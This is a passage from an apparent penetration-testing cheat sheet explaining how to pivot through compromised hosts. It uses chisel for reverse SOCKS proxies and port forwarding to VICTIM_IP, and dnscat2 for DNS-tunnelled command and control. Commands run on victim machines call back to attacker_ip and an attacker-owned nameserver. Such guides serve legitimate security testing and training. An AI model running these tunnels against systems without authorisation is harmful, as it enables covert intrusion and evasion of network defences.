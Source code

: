 
## 8.9 Bending with chisel

[Chisel](https://github.com/jpillora/chisel) lets you securely tunnel using HTTP as a transport, allowing you to get through Deep Packet Inspection (DPI) firewalls to forward ports or set up a SOCKS proxy.

> ⚠ **NOTE**: The chisel installed on Kali doesn't always play nice with other Linux hosts. Always download the client binary from the repo!

[Chisel Releases Page](https://github.com/jpillora/chisel/releases/latest)

The most common way to use it is as a Reverse SOCKS proxy (reference: [Reverse SOCKS guide](https://vegardw.medium.com/reverse-socks-proxy-using-chisel-the-easy-way-48a78df92f29)). Example of Reverse SOCKS proxy setup:

```bash
# on attack box
# start reverse socks proxy server on port 8080:
./chisel server -p 8000 --reverse

# grab windows chisel.exe binary from:
# https://github.com/jpillora/chisel/releases/latest/

# on jumpbox (Windows example), set up reverse SOCKS proxy
.\chisel-x64.exe client attacker_ip:8000 R:socks

# then use proxychains from attack box like normal

# to do reverse port forwarding so kali can reach internal address,
# add the following to the previous command:
R:2222:VICTIM_IP:22

# example
chisel client SERVER_ATTACKER_IP:SERVER_ATTACKER_PORT R:PORT_ATTACKER:VICTIM_IP:VICTIM_PORT

# to tunnel ssh through a SOCKS proxy without proxychains:
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:8000 %h %p' victim@VICTIM_IP
```


## 8.10 Bending with `dnscat2`

[Dnscat2](https://github.com/iagox86/dnscat2) is a tool for securely tunneling traffic through DNS queries in order to perform C2 functions on a victim. It has a server and a client binary. You run the server on a DNS nameserver you own. You run the client on a victim. Once a client establishes a session with the server, you can use a command interface on the server (kinda like msfconsole) to interact with the client. This includes setting up port forwarding rules.

```sh
# on your DNS Nameserver, start the dnscat2 server:
dnscat2-server mydomain.com

# on your victim, start the dnscat2 client
./dnscat mydomain.com


# on your DNS Nameserver, in the dnscat2 command shell:
# list active sessions (windows)
dnscat2> windows

# interact with window/session 1
dnscat2> window -i 1

# get help, listing all commands
command (victim01) 1> ? # or 'help'
```